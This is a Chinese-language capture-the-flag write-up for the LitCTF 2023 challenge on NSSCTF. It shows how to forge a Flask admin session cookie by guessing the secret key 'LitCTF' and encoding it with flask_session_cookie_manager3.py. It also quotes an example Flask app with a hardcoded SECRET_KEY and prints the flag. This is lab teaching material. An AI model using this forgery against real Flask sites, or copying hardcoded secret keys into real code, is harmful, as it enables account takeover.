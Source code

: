 ## [LitCTF 2023\]Flag点击就送！ | NSSCTF](https://www.nssctf.cn/problem/3872)
![image](https://github.com/user-attachments/assets/61ee36d4-f5fd-4539-8b87-5a47f43243d6)
> [!TIP]
题目一开始提示管理员才能拿到flag

![image](https://github.com/user-attachments/assets/c52243ba-d9d5-49ed-af69-999bc87e8aaa)
有输入框，想都没想直接填写**admin**
![image](https://github.com/user-attachments/assets/0bbfc740-074a-4d0d-b31e-b5f86edf6c8d)
不出所料诶~~~
> [!NOTE]
那就尝试一下别的随便用户名，诶有个拿flag的按钮，好吧，要**管理员**才可以

![image](https://github.com/user-attachments/assets/561e2fd8-2f9b-4f50-8648-9bc4cec85eb5)
> [TIP]
那就只能伪造了
### 和之前做过的邮箱重置链接的JWT不同，这里找到session
![image](https://github.com/user-attachments/assets/7a6b10d0-bcfd-44d3-a286-ec310f92ecab)
> 有点像base64，但我之前研究的一点经验，有点像签名
### 扔给赛博厨子看看
![image](https://github.com/user-attachments/assets/f3552e8e-48f2-460c-925c-92ddbb56fe03)
果然是签名
### 仔细查看网页框架
> [!NOTE]
是flask框架，这次是session伪造了

查看flask资料和各位师傅的wp
> [!TIP]
**flask框架的session是存储在客户端的，那么就需要解决session是否会被恶意纂改的问题，而flask通过一个secret_key，也就是密钥对数据进行签名来防止session被纂改。**
```
  from flask import Flask, request, render_template, session, redirect
from datetime import datetime

app = Flask(__name__)

app.config['SECRET_KEY'] = 'laowangaigebi'  # 设置session加密的密钥

@app.route('/login', methods=['GET', 'POST'])  # 支持get、post请求
def login():  # 登录视图函数    
    # 模拟登录成功后把uid和username存到session里
    session['uid'] = '123456'
    session['username'] = 'laowang'    
    return redirect('/')  # 登录成功后到首页

@app.route('/', methods=['GET', 'POST'])  # 支持get、post请求
def index():
    username = session.get('username')  # 取session
    if username:        
        return 'welcome %s' % username    
    else:        
        return '请登录'

app.config['DEBUG'] = True
if __name__ == '__main__':    
    # 0.0.0.0代表任何能代表这台机器的地址都可以访问    
    app.run(host='0.0.0.0', port=5000)  # 运行程序
#flask的加密语言
作者：小源
链接：https://juejin.cn/post/6844903833663963144
来源：稀土掘金
```
### 猜测key
> 由于题目没有给，我们只好猜测key为LitCTF
```
python flask_session_cookie_manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'eyJuYW1lIjoiYWRtaW4ifQ.ZUoYpw.-wWfai1NY-VXpGGXHqnCG5H9-Ug
```
使用kali虚拟机运行一下，将得到的session填入cookie-editor保存，刷新后即可拿到flag
> **NSSCTF{47877fbb-32b0-46ec-bdd6-a926b910870e}**